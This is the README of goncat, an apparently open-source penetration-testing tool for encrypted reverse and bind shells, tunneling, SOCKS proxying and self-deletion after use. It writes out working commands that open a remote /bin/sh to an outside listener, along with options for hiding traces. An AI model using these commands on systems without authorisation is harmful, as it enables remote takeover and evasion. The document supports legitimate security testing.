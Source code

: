 # goncat

[![Build and Test](https://github.com/dominicbreuker/goncat/actions/workflows/test.yml/badge.svg)](https://github.com/dominicbreuker/goncat/actions/workflows/test.yml)

goncat is a netcat-like tool you can use to create bind or reverse shells,
but designed to give you a more SSH-like experience.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it has automatic cross-platform PTY support for your convenience.
Third, it can be used for tunneling.
For now it supports local and remote port forwarding as well as barebones SOCKS (TCP CONNECT and UDP ASSOCIATE supported, but no authentication).
Lastly, there are a few other convenience features such as session logging
and automatic cleanup.

Disclaimer: please treat this tool as alpha. It is work an progress and may very well be turned upside down.

## Install

Clone this repository and run `make build` to build binaries for Linux, Windows and MacOS.
Downloads may be available in the [release section](https://github.com/DominicBreuker/goncat/releases)
once this tool is out of alpha and the interface is stable.

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
As with SSH, there is also a master and a slave side of the connection.
The master specifies the parameters for a connection, and the slave operates accordingly.
But master and slave behaviour is not tied to the client and server sides of the connection.
You can turn either side into whatever you want.
There is only one binary combining all features and it works cross-platform.

A few examples to illustrate basic use, which all assume a goncat binary exists on both your own machine and a remote one:

*   Reverse shell
    *   On your machine: `goncat master listen 'tcp://*:12345' --exec /bin/sh` to create a listener on port 12345 that will instruct the other end to execute `/bin/sh`.
    *   Remote: `goncat slave connect tcp://11.22.33.44:12345` to connect the remote side as a slave, which will execute `/bin/sh`.
*   Bind shell
    *   Remote: `goncat slave listen 'tcp://*:12345'` to listen in port 12345 for connections. The listener will do whatever a connecting master asks it to.
    *   On your machine: `goncat master connect tcp://55.66.77.88:12345 --exec /bin/sh` to connect to the remote host and make it execute `/bin/sh`.

Supported protocols include `tcp` (plain TCP connection) as well as `ws` and `wss` (websocket connections).

Advanced features can be enabled with additional flags:

*   Encryption: add `--ssl` on both ends to enable TLS encryption, which applies to all connections regardless of the protocol
*   Authentication: add `--key mypassword` on both ends to ensure no unexpected clients can connect (requires `--ssl`)
*   PTY: as master, add `--pty` to get a fully interactive shell (make sure you also execute a shell with `--exec`)
*   Local TCP port forwarding: as master, add `-L 8443:google.com:443` to open a local port 8443 on the master side, any connection to it will
    be forwarded through the slave to `google.com:443`
*   Remote TCP port forwarding: as master, add `-R 8443:google.com:443` to open a local port 8443 on the slave side, any connection to it will
    be forwarded through the master to `google.com:443`
*   SOCKS TCP/UDP proxy: as master, add `-D 127.0.0.1:1080` to create a SOCKS proxy, through which you can use the slave side (now with UDP support)
*   Logging: as master, add `--log /tmp/log.txt` to log the session to a file
*   Cleanup: as slave, add `--clean` to make goncat delete itself after execution

## A few Details

Encryption and authentication is implemented with (mutual) TLS.
To save you the hassle of generating certificates, goncat does that for you.
If you only enable `--ssl` you get encryption only.
The server side generates a new certificate on each run of `goncat ... listen`.
The client will accept any certificate without validation.
If you additionally enable `--key mypassword` then your password will be used as a seed
for the RNG used for certificate generation.
Both client and server generate and validate the certificates (but ignoring host name of course).

Logging is implemented in a simple way.
We just store all bytes send over the "main channel" to a file.
Main channel refers to that you saw on the screen when using goncat,
ignoring other data such as control messages required to sync master terminal size over to the slave when enabling PTY.
However, bear in mind that the log still looks a bit strange with PTY enabled.
I may find a better way in the future.

Lastly, a few notes on the cleanup feature.
I don't like it when leftover files fly around when you are done with a machine.
It is all too easy to forget deleting them.
Thus you can tell the slave side to `--clean` up after itself.
goncat will then attempt to delete itself before it terminates.
This works well on many Linux machines, where you can just delete your own binary.
On Windows things are a bit tricky.
At the moment, goncat launches a seperate CMD-based job to delete the binary 5 seconds after termination.
